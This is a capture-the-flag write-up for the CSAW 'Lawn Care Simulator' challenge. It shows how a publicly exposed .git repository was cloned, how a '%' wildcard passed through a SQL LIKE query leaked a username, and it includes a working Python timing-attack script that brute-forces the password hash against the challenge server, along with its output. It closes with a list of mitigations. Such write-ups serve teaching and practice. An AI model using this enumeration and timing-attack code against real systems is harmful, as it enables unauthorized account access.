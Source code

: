 ## Lawn Care Simulator
Writeup by @auscompgeek.

### tl;dr
* `.git` repo was exposed
* get username through `sign_up.php` and wildcards
* use side-channel attacks to log in by brute-forcing the passhash

### Introduction
On visiting the challenge website, we are greeted with a simple game.
Let's take a peek at some of the source:

```javascript
    function init(){
        document.getElementById('login_form').onsubmit = function() {
            var pass_field = document.getElementById('password');
            pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
    };
    $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
    initGrass();
}
```

Here, we see that passwords are *sent* to the server as MD5 hashes, and
that there's a `git` repo at `.git`.

### Exploitation
Let's clone the git repo:

```
$ git clone http://54.175.3.248:8089/.git/ lawn-care-sim
Cloning into 'lawn-care-sim'...
Done.
```

... that was simpler than I expected.

```
$ cd lawn-care-sim
$ ls
___HINT___  index.html  jobs.html  js  premium.php  sign_up.php  validate_pass.php
```

Let's take a look at these PHP files.

> `premium.php`:
```php
# [snip]
    require_once 'validate_pass.php';
    require_once 'flag.php';
    if (isset($_POST['password']) && isset($_POST['username'])) {
        $auth = validate($_POST['username'], $_POST['password']);
        if ($auth){
            echo "<h1>" . $flag . "</h1>";
        }
        else {
            echo "<h1>Not Authorized</h1>";
        }
    }
# [snip]
```

Guess we know where to find the flag now.

> `validate_pass.php`:
```php
function validate($user, $pass) {
    # [snip]
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];
    if (strlen($pass) != strlen($hash))
        return False;
    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
}
```

So `validate()` takes a username and passhash, fetches the hash from the
database, then compares each digit in the hash.

Hang on a second.  There's a call to `usleep()` in the loop.
This is trivially vulnerable to a timing attack.

An important thing to note is that the length of the hashes are checked first.
When performing our attack, we'll have to pad our hash.

> `sign_up.php`:
```php
# [snip]
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
# [snip]
```

Wait a second, `username LIKE '$user'`?  Interesting.

For those that haven't learnt SQL yet, the `LIKE` operator takes two strings,
and takes the RHS as a wildcard expression to match against the LHS.
In SQL, the equivalent wildcard for `*` is `%`.

So, this page takes a *wildcard expression* for the username, and returns a
username in the database.  Great!  Let's grab our username by passing a
username of `%`.

> ## Username: \~~FLAG~~ is not available

Now that we have a username, let's perform our timing attack.
In this case, the timing is the time it takes to respond to our HTTP request,
so attacks may be unreliable.  I try to mitigate this in various ways.

```python
#!/usr/bin/env python3
import requests
import time

EPS = 0.01

username = '~~FLAG~~'
alphabet = '0123456789abcdef'
known = ''

def try_pw(p):
    data = {'username': username, 'password': p}
    r = requests.post('http://54.175.3.248:8089/premium.php', data=data)
    return r.elapsed.total_seconds(), r.text

def fill_pw(p):
    return p.ljust(32, '0')

last_t = max_t = 0
max_l = None

while len(known) != 32:
    for l in alphabet:
        t, result = try_pw(fill_pw(known + l))

        # if we've already found it, just print it
        if 'Not Authorized' not in result:
            print('FOUND IT')
            print(known + l)
            print(result)
            exit()

        print(known + l, t)

        # attempt to detect network latency, etc. really badly
        # this will break if the hash has consecutive zeros in the middle
        if t - last_t < EPS:
            print('fuck')
            known = known[:-1]
            max_t = last_t = max_t / 4
            break

        if max_t < t:
            max_t, max_l = t, l

    else:
        print('adding', max_l, max_t)
        known += max_l
        last_t = max_t

# assuming the flag doesn't have "Not Authorized" in it, we shouldn't get here
print('uhm. something went wrong.')
```

I had to manually intervene a couple of times whilst running my attack,
modifying `EPS` and `known` as appropriate.

... about half an hour later:
```html
667e217660 3.2174746990203857
667e217661 3.2007336616516113
667e217662 3.207519769668579
667e217663 3.2157950401306152
667e217664 3.1841838359832764
667e217665 3.2086429595947266
FOUND IT
667e217666
<html>
<head>
    <title>Lawn Care Simulator 2015</title>
    <script src="//code.jquery.com/jquery-1.11.3.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<h1>flag{gr0wth__h4ck!nG!1!1!</h1></body>
</html>
```

Our flag is `flag{gr0wth__h4ck!ng!1!1!}`.
(Note: CSAW CTF's flags are case-insensitive.)

An interesting thing to note is that this hash has a lot of trailing zeros.
It turns out that the challenge was modified to only check the first 10 digits.

### Easter eggs
```
$ cat ___HINT___
Before planting grass, add compost or other soil amendment to the soil to improve its ability to hold water.
$ git log --oneline
aa3025b I think I'll just put mah source code riiiiighhhht here. Perfectly safe place for some source code.
```

### Mitigations
* If you don't want people cloning your git repo, don't make it publicly
  accessible.  Seriously, how many times have we mentioned this already?
* Don't use the SQL `LIKE` operator unless you really mean it.
* `sleep`ing is not a valid way of preventing brute-force attacks.
  :stuck_out_tongue_winking_eye:
